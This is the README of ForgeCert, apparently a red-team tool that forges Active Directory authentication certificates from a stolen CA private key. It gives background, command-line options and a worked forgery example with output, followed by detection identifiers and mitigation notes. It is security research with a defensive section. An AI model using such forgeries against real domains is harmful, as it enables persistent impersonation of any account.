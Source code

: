 # ForgeCert

ForgeCert uses the [BouncyCastle C# API](https://www.bouncycastle.org/csharp/index.html) and a stolen Certificate Authority (CA) certificate + private key to forge certificates for arbitrary users capable of authentication to Active Directory.

This attack is codified as `DPERSIST1` in our ["Certified Pre-Owned" whitepaper](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf). This code base was released ~45 days after the whitepaper was published.

[@tifkin_](https://twitter.com/tifkin_) is the primary author of ForgeCert.

[@tifkin_](https://twitter.com/tifkin_) and [@harmj0y](https://twitter.com/harmj0y) are the primary authors of the associated Active Directory Certificate Service research ([blog](https://posts.specterops.io/certified-pre-owned-d95910965cd2) and [whitepaper](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf)).


## Background

As described in the `Background` and `Forging Certificates with Stolen CA Certificates - DPERSIST1` sections of our [whitepaper](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf), the private key for a Certificate Authority's CA certificate is protected on the CA server either via DPAPI or hardware (HSM/TPM). Additionally, the certificate (sans private key) is published to the **NTAuthCertificates** forest object, which defines CA certificates that enable authentication to AD. Put together, a CA whose certificate is present in **NTAuthCertificates** uses its private key to sign certificate signing requests (CSRs) from requesting clients. This graphic summarizes the process:

![](certificate_enrollment.png)

The security of the CA's private key is paramount. As mentioned, if the private key is not protected by a hardware solution like a TPM or a HSM, the key will be encrypted with the Data Protection API (DPAPI) and stored on disk on the CA server. If an attacker is able to compromise a CA server, they can extract the private key for any CA certificate not protected by hardware by using [@gentilkiwi](https://twitter.com/gentilkiwi/)'s [Mimikatz](https://github.com/gentilkiwi/mimikatz/) or GhostPack's [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI) project. `THEFT3` in the whitepaper describes this process for machine certificates.

Because the only key material used to sign issued certificates is the CA's private key, if an attacker steals such a key (for a certificate in **NTAuthCertificates**) they can forge certificates capable of domain authentication. These forged certificates can be for any principal in the domain (though the account needs to be "active" for authentication to be possible, so accounts like krbtgt will not work) and the certificates will be valid for as long as the CA certificate is valid (usually 5 years by default but can be set to be longer).

Also, as these certificates are not a product of the normal issuance process, the CA is not aware that they were created. Thus, the certificates [cannot be revoked](https://twitter.com/gentilkiwi/status/1154685386968506368).

**Note:** the private key for ANY CA certificate in **NTAuthCertificates** (root or subordinate CA) can be used to forge certificates capable of authentication in the forest. If the certificate/key is from a subordinate CA, a legitimate CRL for verification of the certificate chain must be supplied.

ForgeCert uses the [BouncyCastle's X509V3CertificateGenerator](https://people.eecs.berkeley.edu/~jonah/bc/org/bouncycastle/x509/X509V3CertificateGenerator.html) to perform the forgeries.


### Command Line Usage

```
C:\Temp>ForgeCert.exe
ForgeCert 1.0.0.0
Copyright c  2021

ERROR(S):
  Required option 'CaCertPath' is missing.
  Required option 'SubjectAltName' is missing.
  Required option 'NewCertPath' is missing.
  Required option 'NewCertPassword' is missing.

  --CaCertPath         Required. CA private key as a .pfx or .p12 file

  --CaCertPassword     Password to the CA private key file

  --Subject            (Default: CN=User) Subject name in the certificate

  --SubjectAltName     Required. UPN of the user to authenticate as

  --NewCertPath        Required. Path where to save the new .pfx certificate

  --NewCertPassword    Required. Password to the .pfx file

  --CRL                ldap path to a CRL for the forged certificate

  --help               Display this help screen.

  --version            Display version information.

```

## Usage

**Note**: for a complete walkthrough of stealing a CA private key and forging auth certs, see `DPERSIST1` in the [whitepaper](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf).

Context:

* The stolen CA's certificate is `ca.pfx`, encrypted with a password of `Password123!`
* The subject is arbitrary since we're specifying a subject alternative name for the certificate.
* The subject alternative name (i.e., the user we're forging a certificate for), is `localadmin@theshire.local`.
* The forged certificate will be saved as `localadmin.pfx`, encrypted with the password `NewPassword123!`

```
C:\Tools\ForgeCert>ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword "Password123!" --Subject "CN=User" --SubjectAltName "localadmin@theshire.local" --NewCertPath localadmin.pfx --NewCertPassword "NewPassword123!"
CA Certificate Information:
  Subject:        CN=theshire-DC-CA, DC=theshire, DC=local
  Issuer:         CN=theshire-DC-CA, DC=theshire, DC=local
  Start Date:     1/4/2021 10:48:02 AM
  End Date:       1/4/2026 10:58:02 AM
  Thumbprint:     187D81530E1ADBB6B8B9B961EAADC1F597E6D6A2
  Serial:         14BFC25F2B6EEDA94404D5A5B0F33E21

Forged Certificate Information:
  Subject:        CN=User
  SubjectAltName: localadmin@theshire.local
  Issuer:         CN=theshire-DC-CA, DC=theshire, DC=local
  Start Date:     7/26/2021 3:38:45 PM
  End Date:       7/26/2022 3:38:45 PM
  Thumbprint:     C5789A24E91A40819EFF7CFD77150595F8B9878D
  Serial:         3627A48F90F6869C3215FF05BC3B2E42

Done. Saved forged certificate to localadmin.pfx with the password 'NewPassword123!'
```

This forgery can be done on an attacker-controlled system, and the resulting certificate can be used with [Rubeus](https://github.com/GhostPack/Rubeus) to request a TGT (and/or retrieve the user's NTLM ;)


## Defensive Considerations

The [TypeRefHash](https://www.gdatasoftware.com/blog/2020/06/36164-introducing-the-typerefhash-trh) of the current ForgeCert codebase is b26b451ff2c947ae5904f962e56facbb45269995fbb813070386472f307cfcf0.

The TypeLib GUID of ForgeCert is **bd346689-8ee6-40b3-858b-4ed94f08d40a**. This is reflected in the Yara rules currently in this repo.

See `PREVENT1`, `DETECT3`, and `DETECT5` in our [whitepaper](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf) for prevention and detection guidance.

[Fabian Bader](https://twitter.com/fabian_bader) published a [great post on how to mitigate many uses of "Golden Certificates"](https://cloudbrothers.info/en/golden-certificate-ocsp/) through OSCP tweaks. Note thought that in the **Final Thoughts** section he mentions `This method is not bulletproof at all. Since the attacker is in charge of the certificate creation process, she could just change the serial number to a valid one.` This was implemented in [his PR](https://github.com/GhostPack/ForgeCert/commit/a202e03d7cee48413514c8659ad042a7f546d94b), though remember that by default the serial number will be randomized, meaning the OSCP prevention should work in many cases and is worth implementing in our opinion.

We believe there may opportunities to build Yara/other detection rules for types of forged certificates this project produces - if any defensive researchers find a good way to signature these files, please let us know and we will update the Yara rules/defensive guidance here.


## Reflections

There is a clear parallel between "Golden Tickets" (forged TGTs) and these "Golden Certificates" (forced AD CS certs). Both the krbtgt hash and CA private key are cryptographic material critical to the security of an Active Directory environment, and both can be used to forge authenticators for arbitrary users. However, while the krbtgt hash can be retrieved remotely over DCSync, a CA private key must (at least as far as we know) be recovered through code execution on the CA machine itself. While a krbtgt hash can be rotated _relatively_ easily, rotating a CA private key is significantly more difficult.

On the subject of public disclosure, we self-embargoed the release of our offensive tooling (ForgeCert as well as [Certify](https://github.com/GhostPack/Certify)) for ~45 days after we published our [whitepaper](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf) in order to give organizations a chance to get a grip on the issues surrounding Active Directory Certificate Services. However, we have found that organizations and vendors have historically often not fixed issues or built detections for "theoretical" attacks until someone proves something is possible with a proof of concept.

This is reflected in some people's reaction to the research of `this IS StUPId, oF COurse YoU Can FORge CERts WITH ThE ca PriVAtE KeY.` To which we state, yes, many things are possible, but `PoC||GTFO`

